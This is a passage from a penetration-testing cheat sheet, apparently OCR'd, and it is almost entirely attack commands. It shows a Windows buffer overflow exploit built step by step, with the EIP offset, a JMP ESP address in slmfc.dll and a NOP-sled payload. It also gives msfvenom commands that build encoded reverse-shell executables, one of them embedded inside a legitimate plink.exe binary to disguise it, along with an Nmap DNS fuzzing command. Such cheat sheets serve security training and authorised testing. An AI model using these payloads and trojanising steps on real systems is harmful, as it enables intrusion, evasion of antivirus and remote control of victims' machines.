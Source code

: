     -   Nmap DNS Fuzzer  
        nmap --script dns-fuzz --script-args timelimit=2h $ip -d

-   MSFvenom  
    [*https://www.offensive-security.com/metasploit-unleashed/msfvenom/*](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

-   Windows Buffer Overflows

    -   Controlling EIP
    
             locate pattern_create
             pattern_create.rb -l 2700
             locate pattern_offset
             pattern_offset.rb -q 39694438

    -   Verify exact location of EIP - [\*] Exact match at offset 2606

            buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90

    -   Check for “Bad Characters” - Run multiple times 0x00 - 0xFF

    -   Use Mona to determine a module that is unprotected

    -   Bypass DEP if present by finding a Memory Location with Read and Execute access for JMP ESP

    -   Use NASM to determine the HEX code for a JMP ESP instruction

            /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

            JMP ESP  
            00000000 FFE4 jmp esp

    -   Run Mona in immunity log window to find (FFE4) XEF command

            !mona find -s "\xff\xe4" -m slmfc.dll  
            found at 0x5f4a358f - Flip around for little endian format
            buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390

    -   MSFVenom to create payload
    
            msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"

    -   Final Payload with NOP slide  
    
            buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode

    -   Create a PE Reverse Shell  
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444
        -f  
        exe -o shell\_reverse.exe

    -   Create a PE Reverse Shell and Encode 9 times with
        Shikata\_ga\_nai  
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444
        -f  
        exe -e x86/shikata\_ga\_nai -i 9 -o
        shell\_reverse\_msf\_encoded.exe

    -   Create a PE reverse shell and embed it into an existing
        executable  
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444 -f
        exe -e x86/shikata\_ga\_nai -i 9 -x
        /usr/share/windows-binaries/plink.exe -o
        shell\_reverse\_msf\_encoded\_embedded.exe

